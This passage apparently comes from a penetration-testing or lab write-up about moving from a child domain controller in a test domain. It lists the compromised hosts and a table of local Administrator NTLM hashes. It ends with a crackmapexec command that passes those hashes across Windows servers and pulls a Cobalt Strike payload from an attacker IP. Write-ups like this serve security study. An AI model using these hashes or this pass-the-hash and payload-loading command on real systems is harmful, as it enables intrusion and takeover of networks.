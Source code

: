 
### current PWN list


```
NYC!31B
NYCWQ51D
NYCIP55A


PHLWP70A
PHLWD42C
PHLWP70A
PHLWD99B


DEVSQL01


SALMON
SAPPHIRE


STRIPED (Domain Controller for POLO.SHIRTS.CORP)
```


## Child DC now what?


So im going to be honest I got a little stuck here having quickly gained access to the child DC I was a little confused when throwing all the NTLM hashes from the CHILD DC resulted in no new sessions on the main DC so I decided to take a look at the local administrator hashes we had captured


### administrator hashes


That resulted in the following list


```
PHLWP70A\Administrator 1ddb9943b5152c571b20de54a455c7e6
STRIPED\Administrator a0344e117c4fa1a0b7cebc63c1e8ed12
DEVSQL01\Administrator d36b166a247b1d53fc3ec29d0ad8d689
NYCWQ51D\Administrator 0d907b6929ee53f5f2da053a8851f732
NYCWQ31B\Administrator 02c4e026a63f475a042f6f9c1b793cfc
NYCIP55A\Administrator 8d4e33bafd2652a148b8bf549d608bec
PHLWD99B\Administrator 69338692292b7ac563b1209df32e5e59
```


Having these users we can now try to authenticate as local admin on all the machines using the following command


```bash
crackmapexec smb windows_servers -u Administrator -H hashes --local-auth -M cobaltloadps -o URL=http://10.9.254.6/payload5
```
